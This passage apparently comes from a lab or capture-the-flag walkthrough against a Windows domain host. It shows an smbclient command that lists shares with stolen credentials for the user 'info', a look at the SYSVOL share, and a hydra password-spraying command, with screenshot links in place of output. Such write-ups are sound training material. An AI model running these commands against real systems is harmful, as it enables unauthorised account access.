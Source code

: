 Using info's creds:
```
smbclient -L \\\\192.168.218.40\\ -U hokkaido-aerospace.com/info
```
![](../attachment/d553c91704be95a27bece2faca7f7f14.png)

Now checking SYSVOL share for scripts:
![](../attachment/2ae5d9b5494df825d90b29b3a54eb003.png)
![](../attachment/69014b0a052e318f497397e0867c1c21.png)

Now spraying:
```
hydra -L users.txt -p 'Start123!' -f smb2://hokkaido-aerospace.com
```
![](../attachment/024d487239b1e621c183af184592a077.png)